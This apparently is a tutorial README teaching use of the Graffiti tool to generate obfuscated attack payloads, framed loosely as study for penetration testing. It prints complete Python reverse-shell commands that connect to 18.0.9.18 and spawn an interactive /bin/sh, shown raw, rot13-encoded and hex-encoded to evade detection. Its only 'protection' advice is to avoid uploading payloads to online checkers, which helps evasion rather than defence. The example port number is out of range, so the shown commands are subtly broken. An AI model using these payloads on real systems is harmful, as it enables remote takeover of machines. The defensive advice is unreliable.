

# Study of one of the hacking SUBJECT 
<p align="center">
  
</p>

# What GRAFFITI is?
Graffiti is a tool that uses a number of different encoding techniques to create obfuscated payloads.

### It offers an array of one-liners and shells in languages such as:

 - Python
 - Perl
 - PHP
 - Powershell
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

### Payloads can be encoded using the following techniques:

 - Base64
 - Hex
 - AES256
 - ...


### Features

 - Option to run native OS commands
 - Multiple encoding techniques 
 - Terminal history
 - Ability to run external commands
 - Ability to securely wipe the history files
 - Ability to create your own payload files
 
# What is the mechanism how to do it?
First, we need to clone into the Github for [Graffiti](https://github.com/Ekultek/Graffiti) by using `git` command


Then get into that directory and list everything to compare what is missing or not by using `ls` command


Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, type `graffiti -h`:


# Now, let's the running begins

The easy way to run Graffiti is in normal command-line mode. All we have to do is pass the arguments after the command, just like you would with any other tool or script. For example, we can list all available payloads with the `-l` command


We can see that there are options segregated between Windows and Linux for [Netcat shells](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/), [Python shells](https://wiki.python.org/moin/PythonShells) and several others.

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. To see the available encoders for the payloads, type `-Vc`


The `-p` command is the staff of life of Graffiti — use it to specify a payload, followed by `-c` to specify the encoding technique, and finally `-lH` and `-lP` to set the listening address and port, respectively. Here's a raw-format Python reverse shell which means no encoding:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c raw -lH 18.0.9.18 -lP 1800918
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.0.9.18",1800918));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

That will spit out the command for the appropriate reverse shell with all the information filled in.

Let's seek a different example. but encoded in rot13:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c rot13 -lH 18.0.9.18 -lP 1800918
python -c 'exec("vzcbeg fbpxrg,fhocebprff,bf;f=fbpxrg.fbpxrg(fbpxrg.NS_VARG,fbpxrg.FBPX_FGERNZ);f.pbaarpg((\"18.0.9.18\",1800918));bf.qhc2(f.svyrab(),0); bf.qhc2(f.svyrab(),1); bf.qhc2(f.svyrab(),2);c=fhocebprff.pnyy([\"/ova/fu\",\"-v\"]);".decode("rot13"))'

```

Another one with hex:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c hex -lH 18.0.9.18 -lP 1800918
python -c 'exec("696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e65637428282231382e302e392e3138222c3138303039313829293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b".decode("hex"))'

```

Graffiti keeps a cache of payloads like a history for easy access, don't need to run those commands above again. Use the `-vC` option to see them:


We can also clear the history with the `-W` command:


# The other way to run Graffiti is in its interactive mode, which comes with a built-in terminal environment. There are more commands and clearly informations.

First of all, just type in `graffiti`:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti

  ________              _____  _____.__  __  .__
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/
 v(0.0.10)

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti#

```

Let's take a look at the help menu, type `help` or `?` :


We can check if we have the up-to-date version of the graffiti by `check` command:


We can get Linux kernel version and some other system information with the `uname -a` command in Linux.


The `list` command will show all the available payloads but not clearly allocated like the `-l` switch from the normal command-line mode:


We can create a payload with the `use` command, followed by the desired payload and the type of encoding to use:


As same as Graffiti's command-line mode, we can view a history of cached payloads by using the `cached` command. We can also display the command history with the `history` option:

Finally, to exit interactive mode, just type `exit`:



# How to protect from it or uncover it?

Just never upload payloads to online checkers.

# Summary

We learned in this tutorial how to use a tool called Graffiti in order to create obfuscated payloads for use in penetration testing and hacking. Second, we set up the platform and have it mounted easily on our system. Next, we explored the command-line mode and some of its options, including listing payloads, viewing history, and generating encoded payloads using a variety of techniques. Then we looked at the interactive mode and how it's easy to use to create payloads, all from an interactive prompt.


